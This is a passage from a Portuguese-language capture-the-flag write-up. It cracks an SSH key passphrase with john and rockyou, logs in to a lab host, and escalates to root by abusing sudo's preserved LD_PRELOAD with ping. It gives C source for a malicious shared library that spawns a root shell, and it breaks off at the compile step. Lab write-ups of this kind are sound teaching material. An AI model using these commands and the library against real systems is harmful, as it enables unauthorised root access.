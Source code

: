 ## 🔑 Desbloqueando a chave & acesso SSH

Gerando o hash com `ssh2john.py` e quebrando com `john` + rockyou:

```bash
python3 /opt/john/ssh2john.py saad_id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
# *****        (saad_id_rsa)
```

A **passphrase** é **`*****`**. Conectar como **saad**:

```bash
ssh -i saad_id_rsa saad@10.201.112.53
```

**Flag de usuário:**

```text
/home/saad/user.txt → *****
```

Do `.bash_history` do usuário:

```
*****
```

---

## ⚡ Privesc via `LD_PRELOAD` + `ping`

`sudo -l` mostra:

* `env_keep+=LD_PRELOAD` (sudo preserva a variável)
* `(root) /usr/bin/ping` permitido

Isso permite **pré‑carregar** uma `.so` maliciosa que abre root shell **antes** do `main()` do binário alvo.

### 1) Biblioteca maliciosa

```c
// /home/saad/rootshell.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init(void) {
    unsetenv("LD_PRELOAD");   // evita herança no bash
    setgid(0); setuid(0);     // assegura privilégios
    system("/bin/bash -p");  // shell preservando euid/gid
}
```

### 2) Compilação
